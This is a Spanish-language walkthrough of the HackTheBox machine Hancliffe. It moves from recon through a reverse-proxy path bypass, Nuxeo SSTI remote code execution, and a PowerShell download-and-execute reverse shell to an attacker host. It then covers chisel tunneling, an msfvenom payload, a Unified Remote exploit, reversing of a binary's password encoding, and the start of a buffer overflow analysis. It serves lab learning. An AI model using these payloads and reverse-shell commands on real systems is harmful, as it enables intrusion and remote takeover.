


Por que al Buffer overFlow no se le tiene miedo si no respeto, tenemos la siguiente maquina de HTB de dificultad Difícil con O.S Windows 


# Reconocimiento (Nmap)

Puertos Abiertos:
```bash 
 nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.11.115 -oG PortsOpen

PORT     STATE SERVICE  REASON
80/tcp   open  http     syn-ack ttl 127
8000/tcp open  http-alt syn-ack ttl 127
9999/tcp open  abyss    syn-ack ttl 127
```

Información de los servicios:
```bash
nmap -sCV -p80,8000,9999 10.10.11.115 -oN PortsInfo

PORT     STATE SERVICE VERSION
80/tcp   open  http    nginx 1.21.0
|_http-server-header: nginx/1.21.0
|_http-title: Welcome to nginx!
8000/tcp open  http    nginx 1.21.0
|_http-server-header: nginx/1.21.0
|_http-title: HashPass | Open Source Stateless Password Manager
9999/tcp open  abyss?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, FourOhFourRequest, GenericLines, GetRequest, HTTPOptions, Help, JavaRMI, Kerberos, LANDesk-RC, LDAPBindReq, LDAPSearchReq, LPDString, NCP, NotesRPC, RPCCheck, RTSPRequest, SIPOptions, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServer, TerminalServerCookie, X11Probe: 
|     Welcome Brankas Application.
|     Username: Password:
|   NULL: 
|     Welcome Brankas Application.
|_    Username:
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port9999-TCP:V=7.94SVN%I=7%D=6/23%Time=68598D93%P=x86_64-pc-linux-gnu%r
SF:(NULL,27,"Welcome\x20Brankas\x20Application\.\nUsername:\x20")%r(GetReq
SF:uest,31,"Welcome\x20Brankas\x20Application\.\nUsername:\x20Password:\x2
SF:0")%r(HTTPOptions,31,"Welcome\x20Brankas\x20Application\.\nUsername:\x2
SF:0Password:\x20")%r(FourOhFourRequest,31,"Welcome\x20Brankas\x20Applicat
SF:ion\.\nUsername:\x20Password:\x20")%r(JavaRMI,31,"Welcome\x20Brankas\x2
SF:0Application\.\nUsername:\x20Password:\x20")%r(GenericLines,31,"Welcome
SF:\x20Brankas\x20Application\.\nUsername:\x20Password:\x20")%r(RTSPReques
SF:t,31,"Welcome\x20Brankas\x20Application\.\nUsername:\x20Password:\x20")
SF:%r(RPCCheck,31,"Welcome\x20Brankas\x20Application\.\nUsername:\x20Passw
SF:ord:\x20")%r(DNSVersionBindReqTCP,31,"Welcome\x20Brankas\x20Application
SF:\.\nUsername:\x20Password:\x20")%r(DNSStatusRequestTCP,31,"Welcome\x20B
SF:rankas\x20Application\.\nUsername:\x20Password:\x20")%r(Help,31,"Welcom
SF:e\x20Brankas\x20Application\.\nUsername:\x20Password:\x20")%r(SSLSessio
SF:nReq,31,"Welcome\x20Brankas\x20Application\.\nUsername:\x20Password:\x2
SF:0")%r(TerminalServerCookie,31,"Welcome\x20Brankas\x20Application\.\nUse
SF:rname:\x20Password:\x20")%r(TLSSessionReq,31,"Welcome\x20Brankas\x20App
SF:lication\.\nUsername:\x20Password:\x20")%r(Kerberos,31,"Welcome\x20Bran
SF:kas\x20Application\.\nUsername:\x20Password:\x20")%r(SMBProgNeg,31,"Wel
SF:come\x20Brankas\x20Application\.\nUsername:\x20Password:\x20")%r(X11Pro
SF:be,31,"Welcome\x20Brankas\x20Application\.\nUsername:\x20Password:\x20"
SF:)%r(LPDString,31,"Welcome\x20Brankas\x20Application\.\nUsername:\x20Pas
SF:sword:\x20")%r(LDAPSearchReq,31,"Welcome\x20Brankas\x20Application\.\nU
SF:sername:\x20Password:\x20")%r(LDAPBindReq,31,"Welcome\x20Brankas\x20App
SF:lication\.\nUsername:\x20Password:\x20")%r(SIPOptions,31,"Welcome\x20Br
SF:ankas\x20Application\.\nUsername:\x20Password:\x20")%r(LANDesk-RC,31,"W
SF:elcome\x20Brankas\x20Application\.\nUsername:\x20Password:\x20")%r(Term
SF:inalServer,31,"Welcome\x20Brankas\x20Application\.\nUsername:\x20Passwo
SF:rd:\x20")%r(NCP,31,"Welcome\x20Brankas\x20Application\.\nUsername:\x20P
SF:assword:\x20")%r(NotesRPC,31,"Welcome\x20Brankas\x20Application\.\nUser
SF:name:\x20Password:\x20");

                                  ^
                                  |
                                What?

```

Tenemos este servicio en el cual nos podemos conectar por el puerto 9999 pero nos piden credenciales las cuales no conocemos;


Por los otros dos puertos, son dos paginas web, la primera es la de Ngix por defecto 


Y la segunda es una pagina llamada Hashpass


Muy pocas cosas donde podamos iniciar un ataque la verdad pero bueno si la maquina se pone difícil lo único que queda es ponernos a su nivel, hora del Fuzzing 


## Fuzzing en Ngix

La pagina de HashPass no la tomaremos en cuneta, la que nos interesa es la pagina por defecto de Ngix, posiblemente tendremos otras rutas que estén ocultas  

Encontramos la siguiente ruta 


La pagina de **maintenance** es una pagina común que no nos dice mucho la verdad pero si la pasamos por BurpSuite esta ruta realmente es un redireccionamiento, y también nos esta dando una cookie de sección muy particular

Ngix no genera tokens de sección, por lo que posiblemente tenemos otro servicio por detrás, ya sea Apache o Tomcat   


¿Cómo comprobamos esto? 

Tenemos un recurso muy bueno que es un PDF del 2018 sobre este tipo de vulnerabilidades 

https://i.blackhat.com/us-18/Wed-August-8/us-18-Orange-Tsai-Breaking-Parser-Logic-Take-Your-Path-Normalization-Off-And-Pop-0days-Out-2.pdf

El cual nos representa con el siguiente esquema como es este tipo de servicios conectados, donde Ngix es la puerta principal pero pueden existir otros servicios por detras 


Ojito con lo siguiente:

Con tomcat podemos acceder a esas rutas que no están accesibles con un simple **/..;/**


Si probamos con esto nos daremos cuenta que si funciona:


Pero podemos comprobar todavía mas, TomCat usa un tipo de archivo llamado .jsp(JavaServer Pages) por lo cual si hacemos un fuzzing de este tipo de archivos encontraremos las siguientes, que nos confirman por segunda vez que el servicio de TomaCat esta por detras 


Teniendo esta confirmación podemos realizar Fuzzing con el  bypasses de proxies inversosy encontrar nuevas direcciones, ¿Cómo hacemos esto? manual si quieres la verdad, pero pues ocuparemos a gobuster para agilizar la tarea (Creo que mi salud mental en este punto ya es hablar conmigo mismo)


## Bypass de proxies inversosy  

```bash 
gobuster dir -u "http://10.10.11.115/maintenance/..;/" -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x jsp -k -b 404
```

Ojito al piojito tenemos un login.jsp esta ruta recuerda que no es accesible si no fuera por el Baypass del proxie 


Y que tenemos en este login 


el servicio es de nuxeo con la versión 10.2, como siempre que encontramos una version toca verificar si tenemos algún CVE o vulnerabilidad sobre esta 


Y claramente tenemos una vulnerabilidad de REC(Remote Code Execution) a través de un SSTI(Server Side Template Injection)


La explotación de este mismo es muy fácil


La inyección se basa en lo siguiente tenemos la ruta del login.jsp que en nuestro caso es:

```
http://10.10.11.115/maintenance/..;/login.jsp
```
Dentro de esta ruta un archivo llamda:

```
/pwn$.xhtml
```

Seguido del signo $ podemos agregar un par de: `{}` que es donde ocurre la inyección, en este ejemplo es una operatoria, si la interpreta el resultado sera 49({7 * 7}) como es Java lo que esta corriendo por detrás solo se necesitan un juego de `{}` para que funcione  


```
/pwn${7*7}.xhtml
```


# SSTI -> RCE 

Bien ahora pondremos a prueba esto, y si lo interpreta tendremos como acceder al servidor probablemente:


Bingo my friend, esta realizando la operatoria, y ahora ¿Comó ejecutamos comandos?, pues la verdad es que no se, pero lo que si se es que en PyloadAllThings podemos saber como 

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/Java.md#java

En este caso tenemos la ejecución del comando cat para leer el /etc/passwd de una maquina Linux pero como estamos ante una Windows lo mas rápido es comprobar un ping 


Concretamente seria este el comando:

```java
${T(java.lang.Runtime).getRuntime().exec('ping 10.10.X.X')}
```

Pero no lo interpreta, no te desanimes que no es la única forma de hacerlo he aquí otra forma de hacerlo 

Para comprobar que funcione lo que debemos de hacer es ponernos en escucha por la interfaz que estamos usando para la VPN de HackTheBox y filtrar por la traza **icmp**

```bash 
tcpdump -i tun0 icmp -n
```

Y ahora si lanzamos el ping a nuestra maquina:

```java 
${''.getClass().forName('java.lang.Runtime').getMethods()[6].invoke(''.getClass().forName('java.lang.Runtime')).exec('ping 10.10.X.X')}
```

Y como veremos ha funcionado:


## Entablando Revershell 

Para entrar a la maquina y obtener una Powershell tiraremos de una repo de GitHub de nishang
https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1

Dentro del repositorio solamente ocuparemos el archivo **Invoke-PowerShellTcp.ps1** que esta dentro de la carpeta **shells**

Y para facilitarnos las cosas modificaremos el archivo para que se automatice un poco mas 


Edita el archivo y hasta el final del todo ponemos esta linea con nuestra respectiva dirección y puerto :


Bien, para que funcione, realizaremos los siguintes pasos:

**1 Usando un servidor en Python, tendrá que estar accesible nuestro archivo Ps1.ps1*** 

```bash
python3 -m http.server 80 
```

**2 Usar Nc para recibir la PowerShell***

```bash
nc -lvnp your_port
```

**3 Después, realizaremos la conversión a bas64 del comando que descargara de nuestra maquina el Ps1.ps1(PowerShell inversa)***

```bash
echo "IEX(New-Object Net.WebClient).downloadString('http://10.10.X.X/Ps1.ps1')" | iconv -t utf-16le | base64 -w 0; echo
```

**4 Enviamos el comando a ejecutar*** 

```url 
http://10.10.11.115/maintenance/..;/login.jsp/login.jsp/pwn$%7B''.getClass().forName('java.lang.Runtime').getMethods()[6].invoke(''.getClass().forName('java.lang.Runtime')).exec('powershell%20-enc%20SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvADEAMAAuADEAMAAuADEANgAuADQALwBQAHMAMQAuAHAAcwAxACcAKQAKAA==')%7D.xhtml
```

Para ser mas específicos este seria el comando que necesitamos enviar en la sección del .exec 

```
'powershell -enc 0SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvADEAMAAuADEAMAAuADEANgAuADQALwBQAHMAMQAuAHAAcwAxACcAKQAKAA=='
```

Si todo va bien y la codificación del base64 se realizo bien, obtendremos nuestra revershell:

***Capturas del proceso*** :


El servidor de Python tuvo una petición para descargar el archivo Ps1.ps1


Y en el puerto donde estemos en esucha para recibir la Powershell la obtendremos y listo dentro del servidor estamos:


# ***Nuxeo -> Clara***

Logramos entrar a la maquina, el problema esta en que este usuario llamado Nuxeo carece de privilegios, por lo cual, debemos de encontrar la forma de cambiar a otro usuario, una elevación de privilegios.

Si listamos los servicios que están en escucha dentro de la maquina, o mas bien, servicios que solamente son visibles de manera local, podemos tirar del confiadísimo **Netstat**, pero para tener mejor nuestro arsenal tenemos el Blog de este chaval que nos ayudara bastante:

[How to Find Listening Ports with Netstat and PowerShell](https://adamtheautomator.com/netstat-port/

OneLiner de Netstat en Windows, lo bonito de este comando es que no solo te reporta los puertos en escucha, si no también el nombre del servicio que esta a través de ellos 

```PowerShell
Get-NetTCPConnection | Select-Object -Property *,@{'Name' = 'ProcessName';'Expression'={(Get-Process -Id $_.OwningProcess).Name}}
```

Para quedarnos solo con algunos campos en específicos `FT -Property `

```PowerShell
Get-NetTCPConnection | Select-Object -Property *,@{'Name' = 'ProcessName';'Expression'={(Get-Process -Id $_.OwningProcess).Name}} | FT -Property LocalAddress,LocalPort,ProcessName
```

Solo mostrar las que este en escucha `-State Listen`

```PowerShell
Get-NetTCPConnection -State Listen | Select-Object -Property *,@{'Name' = 'ProcessName';'Expression'={(Get-Process -Id $_.OwningProcess).Name}} | FT -Property LocalAddress,LocalPort,ProcessName
```


Una vez ejecutado, encontraremos un puerto 9512 perteneciente al servicio de RemoteServerWin 


Pero, ¿Qué es este servicio o para que nos puede funcionar?
Si buscamos el nombre del servicio en google, encontraremos el verdadero nombre del servicio el cual corresponde a Unified Remote


Estamos de suerte, este servicio es vulnerable el problema aquí, es que antes de poder explotar la vulnerabilidad debemos de hacer que el puerto sea accesible para nosotros.

## ***Unified Remote Exploit*** 

El exploit esta documentado en nuestro querido Exploit DB:

https://www.exploit-db.com/exploits/49587


## --------------------------Importante -------------------------------

El script funciona con Python2.7 no con Python3, si aun lo tienes instalado, Muy bien, si , Tendras de descargar el código fuente y compilarlo, apóyate de una IA 
## ----------------------------------------------------------------------


El script de Python nos pide tres cosas, la ip de la victima , tu ip y un pyload que será una reverse Shell que crearemos con msfvenom


Bien pero como dije antes, la primera tarea es hacer que ese puerto este abierto, para conseguirlo tiraremos de Chisel 

Lo descargamos y lo renombramos a chisel.exe.gz 


Por ultimo lo descomprimimos con Gunzip:


Para pasarlo a la maquina victima usaremos un servidor de Python

En la maquina Windows (de preferencia descárgalo en la carpeta de ProgramData)

```PowerShell
certutil.exe -f -urlcache -split http://10.10.16.4/chisel.exe chisel.exe
```

Con eso tendremos chisel en nuestra maquina victima 


Después de esto tendremos que descargar el repo completo de chisel en nuestra maquina de atacante

lo compilaremos de esta forma para que pese lo menos posible (no afecta en nada si no agregas los parámetro -s -w )

```bash
go build -ldflags "-s -w " .
```


## Conectado chisel

En nuestra maquina de atacante, que va a actuar como el servidor levantaremos el servicio por un puerto que tengamos desocupado (ejemplo: Puerto:1234)

```bash
chisel server -p Port --reverse
```

y en la maquina victima que estará en modo cliente tu IP y el puerto que especificaste en chisel, seguido del puerto que quieres conectar 

```powershell
./chisel client your_ip:your_Port 9512:127.0.0.1:9512
```


# Creación del pyload con mfsvenom

Con el puerto accesible ahora si tenemos que crear la reverse shell que es un parametro que necesita el script de Python 

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=Yout_Ip LPORT=PORT -f exe -o rev.exe
```


Con esto ya tenemos todo lo necesario, puerto 9512 que esta conectado a través de manera local de nuestro lado por el puerto 9512 de nuestra maquina gracias a chisel 
# Realizando el ataque 

Primero tenemos que ponernos en escucha 

```bash
rlwrap nc -lvpn 443
```

Después donde tenemos el .exe creado por msfvenom ejecutaremos un servidor de Python 

```bash 
python3 -m http.server 80
```

y con estos dos ejecutándose ahora si ejecutaremos el exploit.py 

```bash
python3 exploit.py 127.0.0.1 10.10.16.4 rev.exe 
```

Capturas del ataque:


Elevamos el privilegio de Nuxeo a Clara 

# ***Clara -> development*** 

la Flag esta en el escritorios del Usuario Clara 


Ocuparemos el WinPEAS para localizar formas de elevación de privilegios, ocupa el mismo método que realizamos para compartirnos chisel 


Esto es una pista ya que la dirección a donde apunta es la pagina de HasPass y dentro de la ruta C:\Users podemos darnos cuenta que el otro usuario es development 




Al introducir los tres datos nos generar una contraseña la cual probaremos para el usuario develpment


Para probar las dos contraseñas tendremos que hacer otro túnel con chisel para exponer el windows remote management que es el puerto 5985 desde la maquina Windows o victima como le quieras llamar 

```cmd
chisel.exe client 10.10.16.4:1234 R:5985:127.0.0.1:5985 
```


y en chisel veremos la segunda conexión/túnel creada 


Y ahora si podremos usar evil-winrm para conectarnos


Ahora somos el usuario development y siendo este mismo podremos entrar en la carpeta de C:\DevApp

Donde prepárate que toca la escalada de privilegios con conocimiento a bajo nivel

# ***MyfirstApp.exe***


Dentro de la carpeta de C:\Devapp encontraremos un ejecutable que se llama MyFirstApp.exe 


Este ejecutable es el servicio que se expone por el puerto 9999 de la maquina, el cual vimos al principio, en la fase de reconocimiento  


Es un ejecutable y algunas lineas de codigo pueden ser visibles, y si tenemos suerte, encontrar informacion privilejiada  

Lo descragaremos en nuestra maquina local y revisaremos las lineas de codigo que aun son visibles 

```bash
strings MyFirstApp.exe
```

Obtendremos algo interesante que es una usuario y contraseña pero no nos sirve para iniciar sección como tal 


## ***Ghidra MyFirtsApp.exe***

Usaremos Ghidra para ver la estructura del ejecutable y cual es su funcionamiento 


Usando el buscador de String, buscaremos una cadena de texto en especifico: `username` que es lo que nos aparece al conectarnos al servicio por el puerto 9999 


Una vez lo encuentre esa String o referencia que contiene nuestra palabra de `username` procederemos a encontrar la parte del código donde se encuentre esa cadena de texto:


Y encontraremos el código principal que nos interesa, el inicio de sección que vemos al conectarnos por el puerto 9999 de la maquina 


Bien el binario ocupa recv sockets para conectarse y enviar la información al servidor pero,unas líneas mas abajo del input de la  contraseña encontramos la función llamada login 


## ***Login Function***

Esta función también la puedes encontrar dentro de las carpeta de la funciones del binario, 


Si nos fijamos en la parte superior de script, tenemos la definición de esta función, la cual necesita dos parámetros para funcionar, posiblemente sean tanto el usuario como la contraseña 

```c
undefined4 __cdecl _login(char *param_1,void *param_2)
									User       Passwd
```

En la funcio de login encontramos el usuario y una contraseña que vimos con el comando de string, la contraseña esta encriptada (renombra la variables para que el ejecutable se pueda entender mejor)

```c
User = "alfiansyah";
passwd_encrypt = "YXlYeDtsbD98eDtsWms5SyU=";
_memmove(local_39,param_2,0x11);
```


Bien con esto dicho procederemos a debuger el código y analizarlo.

Primero tenemos dos funciones que nos llaman la atención y es la función de` _encrypt1` , cuando nosotros introducimos la contraseña en la aplicación esta viaja a la función de `_login` como la variable `param_2` y es renombrada con otro nombre `local_39` y para facilitarnos las cosas es mejor renombrar variables 

```c
local_18 = _encrypt1(0,local_39); <--Encrypt 1
local_1c = _strlen(local_18);
local_24 = (byte *)_encrypt2(local_18,local_1c); <--Encript 2
local_20 = local_24;
```

Pero primero renombraremos una variables para que la compresión del binario sea mas grata:
Cuando introducimos la contraseña esta pasa por el flujo de programa principal, esta contraseña que el usuario escribe es mandada a la función de login, la cual pasa como param_2, y después es renombrada como local_39 , y esta misma es mandada a la función de _encript1_


## ***encrypt1 Function***

Bien dentro de esta función renombraremos unas cuantas variables para poder entender mejor el código y no, nos de un cáncer visual 


 Con esto tenemos una mejor visión de lo que esta haciendo el programa, analicemos linea por linea :
## Procesamiento principal

```c
passwd = _strdup(password);
```

- `_strdup()` duplica la cadena `password` en memoria
- Asigna el puntero de la copia a `passwd`
- Esto evita modificar la cadena original

```c
length_passwd = _strlen(passwd);
```

- `_strlen()` calcula la longitud de la cadena copiada
- Guarda el resultado en `length_passwd`

## Bucle de cifrado

```c
for (i = 0; i < length_passwd; i = i + 1) {
```

- Inicia un bucle que recorre cada carácter de la cadena
- Va desde posición 0 hasta `length_passwd - 1`

```c
if ((' ' < passwd[i]) && (passwd[i] != '\x7f')) {
```

- Condición que verifica si el carácter actual debe cifrarse
- `' ' < passwd[i]`: el carácter debe ser mayor que el valor hexadecimal del  espacio (ASCII 32)
- `passwd[i] != '\x7f'`: el carácter no debe ser DEL (ASCII 127)
- Solo cifra caracteres imprimibles visibles del valor hexadecimal mayor a 32 pero menor a 127
- Lo puedes verificar usando el comando `man ascii`
- 

```c
cVar1 = (char)(passwd[i] + 0x2f); -> 0x2f = 47
```

- Suma 47 decimal (`0x2f` hexadecimal) al carácter actual
- Convierte el resultado a `char` y lo guarda en `cVar1`

```c
if (passwd[i] + 0x2f < 0x7f) { -> 0x2f=47 0x7f=127
```

- Verifica si el carácter cifrado está dentro del rango ASCII imprimible
- `0x7f` es 127 en decimal (límite superior)

```c
passwd[i] = cVar1;
```

- Si está en rango válido, asigna el carácter cifrado directamente

```c
else {
    passwd[i] = cVar1 + -0x5e; -> 0x5e= -94
}
```

- Si excede el rango, aplica "wrap-around"
- Resta 94 decimal (`0x5e` hexadecimal) para volver al rango válido
- `+ -0x5e` es equivalente a `- 0x5e`

```c
return passwd;
```

- Devuelve el puntero a la cadena cifrada
- El llamador debe liberar esta memoria con `free()`

El algoritmo básicamente rota cada carácter 47 posiciones hacia adelante en la tabla ASCII, con rotación circular para mantener los caracteres en el rango imprimible.

Quedando el análisis del código de la siguiente forma(mas entendible la verdad):


Bien ya sabemos que que hace la función de _encript1_ y es solamente rotar la posición del carácter 47 posiciones 

## ***encript2 Function***

El flujo del programa continua almacenado la contraseña en formato rot 47 en una variable la cual llamaremos o renombraremos como passwd_rot47, seguido de eso cuenta la longitud de esa cadena de texto que es la contraseña en rot47 y se la pasa a la función de encript2


Como sabemos ahora ue contienen esta variables renombraremos las variables para entender mejor el código:


Analicemos esta función, la cual a simple vista parece tener la misma estructura que la función de encript_1, ya que va iterando por cada posición o carácter de la contraseña con formato rot47:

## Bucle principal
```c
for (i = 0; i < len_passwd_rot47; i = i + 1) {
```

- Recorre cada carácter de la cadena

```c
position_passwd = passwd_rot47[i];
```

- Obtiene el carácter actual y lo guarda en `position_passwd`
## Condición de filtro

```c
if ((position_passwd < 65) ||
   (((90 < position_passwd && (position_passwd < 97)) || (122 < position_passwd)))) {
```

- **65** = 'A', **90** = 'Z', **97** = 'a', **122** = 'z'
- Esta condición es verdadera si el carácter **NO es una letra**:
    - `< 65`: caracteres antes de 'A'
    - `90 < position_passwd && position_passwd < 97`: caracteres entre 'Z' y 'a' (símbolos)
    - `> 122`: caracteres después de 'z'

```c
passwd[i] = position_passwd;
```

- Si NO es letra, lo deja **sin cambios**
## Procesamiento de letras

```c
else {
```

- Si SÍ es una letra (A-Z o a-z)

```c
bVar1 = position_passwd < 91;
```

- `91` es ASCII después de 'Z'
- `bVar1 = true` si es **mayúscula** (A-Z)
- `bVar1 = false` si es **minúscula** (a-z)

```c
if (bVar1) {
    position_passwd = position_passwd + 32;
}
```

- Si es mayúscula, le suma 32
- Esto **convierte mayúscula a minúscula** temporalmente
- Ejemplo: 'A' (65) + 32 = 'a' (97)


```c
passwd[i] = 'z' - (position_passwd + 159);
```

- **Fórmula de cifrado principal**
- `'z'` = 122
- Suma 159 al carácter y lo resta de 'z'
- Es una **transformación de sustitución compleja**


```c
if (bVar1) {
    passwd[i] = passwd[i] + -32;
}
```

- Si originalmente era mayúscula, resta 32
- **Convierte de vuelta a mayúscula**
- `+ -32` es equivalente a `- 32`


Todo esto es el procedimiento de un cifrado Atbash.
El cifrado Atbash es un **cifrado de sustitución por inversión** donde:

- A ↔ Z
- B ↔ Y
- C ↔ X
- ... y así sucesivamente

Es decir, cada letra se sustituye por su **"opuesta"** en el alfabeto.

## Analizando la fórmula clave:

```c
passwd[i] = 'z' - (position_passwd + 159);
```

Esta línea es la que implementa Atbash. Veamos por qué:
### Para minúsculas (a-z):

- Si `position_passwd = 'a'` (97):
    - `'z' - ('a' + 159) = 122 - (97 + 159) = 122 - 256 = -134`
    - Pero hay overflow de byte, resulta en `'z'`
- La fórmula efectivamente hace: `'z' - ('a' - 'a') = 'z'`

### Para mayúsculas (A-Z):

El código primero:

1. Convierte a minúscula (`+ 32`)
2. Aplica la transformación Atbash
3. Convierte de vuelta a mayúscula (`- 32`)

## Comportamiento Atbash clásico:

- **A** → **Z**
- **B** → **Y**
- **a** → **z**
- **b** → **y**
- Los **no-letras** quedan **intactos**

La fórmula `'z' - (position_passwd + 159)` con el manejo de mayúsculas/minúsculas es una implementación (algo compleja) del cifrado Atbash que:

- Invierte las letras en el alfabeto
- Preserva el caso (mayúscula/minúscula)
- No toca números ni símbolos

# Descubrimiento de la contraseña 

Bien ya sabemos que hace el binario con la contraseña que nosotros introducimos, primero la rota 47 posiciones en su valor hexadecimal, luego rota con el método de Atbash y por ultimo lo codifica en base64, y como sabemos eso, ahora lo que procede es hacer ingeniería inversa:


Por ende lo que haremos es crear un script en Python que realice lo contrario con la contraseña que esta dentro del binario 

## Python decrypt

```python
import base64

def decode_base64(text):
    """Decodifica una cadena en Base64"""
    try:
        # Añadir padding si es necesario
        missing_padding = len(text) % 4
        if missing_padding:
            text += '=' * (4 - missing_padding)
        
        decoded_bytes = base64.b64decode(text)
        return decoded_bytes.decode('utf-8')
    except Exception as e:
        print(f"Error decodificando Base64: {e}")
        return None

def decode_atbash(text):
    """Decodifica usando cifrado Atbash (A↔Z, B↔Y, etc.)"""
    result = ""
    for char in text:
        if 'A' <= char <= 'Z':
            # Para mayúsculas: A=0, Z=25, entonces A↔Z, B↔Y
            result += chr(ord('Z') - (ord(char) - ord('A')))
        elif 'a' <= char <= 'z':
            # Para minúsculas: a=0, z=25, entonces a↔z, b↔y
            result += chr(ord('z') - (ord(char) - ord('a')))
        else:
            # No es letra, se mantiene igual
            result += char
    return result

def decode_rot47(text):
    """Decodifica usando ROT47 (caracteres ASCII 33-126)"""
    result = ""
    for char in text:
        ascii_val = ord(char)
        # ROT47 trabaja con caracteres ASCII del 33 al 126 (94 caracteres)
        if 33 <= ascii_val <= 126:
            # Desplazar 47 posiciones hacia atrás (decodificar)
            new_val = ascii_val - 47
            if new_val < 33:
                new_val += 94  # Wrap around
            result += chr(new_val)
        else:
            # Carácter fuera del rango, se mantiene igual
            result += char
    return result

def main():
    print("=== DECODIFICADOR BASE64 → ATBASH → ROT47 ===\n")
    
    # Pedir la cadena al usuario
    encoded_text = input("Ingresa la cadena codificada: ").strip()
    
    if not encoded_text:
        print("No se ingresó ninguna cadena.")
        return
    
    print(f"\nCadena original: {encoded_text}")
    print("-" * 50)
    
    # Paso 1: Decodificar Base64
    print("Paso 1: Decodificando Base64...")
    step1 = decode_base64(encoded_text)
    if step1 is None:
        print("Error en la decodificación Base64. Terminando...")
        return
    print(f"Resultado: {step1}")
    
    # Paso 2: Decodificar Atbash
    print("\nPaso 2: Decodificando Atbash...")
    step2 = decode_atbash(step1)
    print(f"Resultado: {step2}")
    
    # Paso 3: Decodificar ROT47
    print("\nPaso 3: Decodificando ROT47...")
    final_result = decode_rot47(step2)
    print(f"Resultado: {final_result}")
    
    print("-" * 50)
    print(f"RESULTADO FINAL: {final_result}")

if __name__ == "__main__":
    main()
```

ó también puedes tirar de paginas como: cyberchef https://gchq.github.io/CyberChef/

Y al ejecutarlo solo pondremos la contraseña que tenemos dentro del binario


Para verificar si esta correcto procederemos al iniciar seccion con esta contraseña y con el usario que encontramos dentro del binario:

# Primer login in Hancliffe 9999

Ok las credenciales son correctas pero nos pide dos datos mas, el Nombre completo y un, ¿código?


dentro del binario encontramos mas información, que pertenece al campo de FullName que pide el programa  

```
Vickry Alfiansyah
```


y tambien encointramos que tanto el FullNme como el Code lo que nosotros introduscamos en ellos estan almacenadas en las variables de `pcStack_20 y pcStack_24`

La primera pcStack_20 tiene un buffer de 80 bytes
La segunda pcStack_24 tiene un buffer de 100 bytes 


Pero con cuidado que solo la variable pcStack_24 tiene una protección para que el buffer no se desborde(en otras palabras: que podamos echar mas agua para que se desborde del vaso ) esta variable es del input FullName
## Validaciones encontradas:

### **Para `pcStack_24` (100 bytes)**:

```c
*strncpy(pcStack*24,pcStack_10,100);
```

- **SÍ hay protección**: `strncpy` limita a exactamente 100 bytes

###  **Para `pcStack_20` (80 bytes)**:

```c
*strncpy(pcStack*20,pcStack_10,0x50);
```

- **Vulnerable**: `0x50` = 80 bytes, pero el buffer es de 80 bytes


Ahora bien sabiendo esta información podemos, el flujo del programa envía estas dos variables a una función llamada  `_SaveCreds` y ojito a lo que tenemos aqui:

param_1 es la variable de pcStack_20 

### **Vulnerabilidad**:

```c
*strcpy(local*42, param_1);
```

- **Buffer destino**: `local_42` = **50 bytes**
- **Origen**: `param_1` (Code) = hasta **80 bytes**
- **Sin validación**: `strcpy` no limita la copia
- **Resultado**: **OVERFLOW SEGURO** si el código tiene más de 49 **caracteres**


Verifiquemos si en realidad existe este buffer overflow 
Primero cuando el código de verificación que nos pide después de el Full Name esta mal , en la terminal pone un mensaje el cual es `Wrong Code`

Pero si metemos muchas "A" bastantes "A" llegara el momento donde sobreasara el limite 


El programa acaba de matarse, y ya no responde y eso significa que,
Tenemos un Buferrrrrrrrrrrr OverrrrrFlowwwwwww!!!!!!!!!!! 

Si no sabes lo que es, tenemos la analogía de una jarra de agua 

# **Analogía de la Jarra de Agua**

### La jarra:

- **Capacidad**: 1 litro de agua
- **Representa**: Tu buffer de 50 bytes
### El agua:

- **Lo que echas**: puede ser cualquier cantidad
- **Representa**: Los datos que el usuario envía
## ¿Qué pasa normalmente?

```
🫗 Jarra (1L) + 🚰 Agua (0.5L) = ✅ Todo bien
```

El agua cabe perfectamente, no hay problema.
## ¿Qué pasa con Buffer Overflow?

```
🫗 Jarra (1L) + 🚰 Agua (2L) = 💥 ¡DESBORDE!
```
### El desastre:

- El **agua extra** se **derrama por toda la mesa**
- **Moja** los papeles importantes del lado
- **Daña** otros objetos cercanos
- **Puede llegar** hasta enchufes eléctricos

## En términos de programación:

- **Jarra** = Buffer de memoria
- **Agua extra** = Datos maliciosos
- **Mesa mojada** = Memoria corrupta
